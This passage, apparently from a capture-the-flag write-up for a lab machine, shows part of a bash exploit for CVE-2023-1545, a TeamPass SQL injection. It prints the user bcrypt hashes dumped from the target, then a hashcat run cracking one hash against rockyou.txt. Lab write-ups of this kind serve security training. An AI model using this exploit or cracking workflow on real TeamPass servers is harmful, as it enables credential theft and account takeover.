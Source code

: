 ```bash
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```
{% endcode %}



```bash
❯ chmod +x CVE-2023-1545.sh

❯ ./CVE-2023-1545.sh http://checker.htb:8080/
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```



```bash
❯ echo '$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy' > hashes
❯ hashid '$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy'
Analyzing '$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344389
* Bytes.....: 139921571
```